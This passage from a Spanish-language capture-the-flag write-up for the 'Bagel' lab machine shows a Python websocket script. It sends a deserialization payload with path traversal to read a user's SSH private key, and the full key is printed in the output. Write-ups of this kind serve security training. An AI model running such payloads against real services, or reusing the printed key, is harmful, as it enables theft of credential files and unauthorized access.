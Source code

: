 Ahora lo que podemos hacer es que con un **script** en **Python** podemos hacer lo antes mencionado 

```bash
❯ catn idrsa.py
import websocket
import json

ws = websocket.WebSocket()

ws.connect("ws://bagel.htb:5000/")

order =  { "RemoveOrder" : {"$type":"bagel_server.File, bagel", "ReadFile":"../../../../../../home/phil/.ssh/id_rsa"}}
data = str(json.dumps(order))

ws.send(data)

result = ws.recv()
print(result) 

```

Si lo ejecutamos podemos leer la **id_rsa**

```bash
❯ python2 idrsa.py
{
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "10:24:32",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
    "ReadFile": "-----BEGIN OPENSSH PRIVATE KEY-----\n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\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----",
    "WriteFile": null
  },
  "WriteOrder": null,
  "ReadOrder": null
}
```
